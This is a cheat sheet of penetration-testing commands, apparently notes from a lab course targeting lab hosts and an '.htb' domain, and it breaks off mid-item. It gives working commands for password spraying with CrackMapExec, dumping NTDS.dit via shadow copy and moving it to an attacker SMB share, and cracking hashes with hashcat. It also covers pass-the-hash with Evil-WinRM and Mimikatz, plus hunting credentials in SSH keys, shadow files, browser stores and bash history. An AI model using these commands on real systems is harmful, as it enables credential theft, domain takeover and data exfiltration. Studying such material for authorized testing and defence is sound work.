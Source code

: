 2. Launching the Attack with CrackMapExec: `crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt`
#### **Capturing NTDS.dit**
1. Connecting to a DC with Evil-WinRM: `evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'`
2. Checking Local Group Membership: `net localgroup`
3. Checking User Account Privileges including Domain: `net user bwilliamson`
4. Creating Shadow Copy of C: `vssadmin CREATE SHADOW /For=C:`
5. Copying NTDS.dit from the VSS: `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`
6. Transferring NTDS.dit to Attack Host: `cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData `
7. A Faster Method: Using cme to Capture NTDS.dit: `crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds`
8. Cracking a Single Hash with Hashcat: `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`
9. Pass-the-Hash Considerations: `evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"`
## **Credential Hunting in Windows**
1. Running Lazagne All: `start lazagne.exe all`
2. Using findstr: `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`
## **Credential Hunting in Linux**
1. Configuration Files: `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done`
2. Credentials in Configuration Files: `for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done`
3. Databases: `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done`
4. Notes: `find /home/* -type f -name "*.txt" -o ! -name "*.*"`
5. Scripts: `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done`
6. Cronjobs: `cat /etc/crontab `, `ls -la /etc/cron.*/`
7. SSH Private Keys: `grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"`
8. SSH Public Keys: `grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"`
9. Bash History: `tail -n5 /home/*/.bash*`
10. Logs: `for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done`
11. Memory - Mimipenguin: 
    1. `sudo python3 mimipenguin.py`
    2. `sudo bash mimipenguin.sh `
12. Memory - LaZagne: `sudo python2.7 laZagne.py all`
13. Firefox Stored Credentials:
    1. `ls -l .mozilla/firefox/ | grep default `
    2. `cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .`
14. Decrypting Firefox Credentials: `python3.9 firefox_decrypt.py`
15. Browsers - LaZagne: `python3 laZagne.py browsers`
### **Cracking Linux Credentials**
1. Unshadow:
    1. `sudo cp /etc/passwd /tmp/passwd.bak`
    2. `sudo cp /etc/shadow /tmp/shadow.bak`
    3. `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes`
2. Hashcat - Cracking Unshadowed Hashes: `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked`
3. Hashcat - Cracking MD5 Hashes: `hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`
## **Pass the Hash (PtH)**
1. Pass the Hash from Windows Using Mimikatz: `mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit`
2. Pass the Hash with PowerShell Invoke-TheHash (Windows): 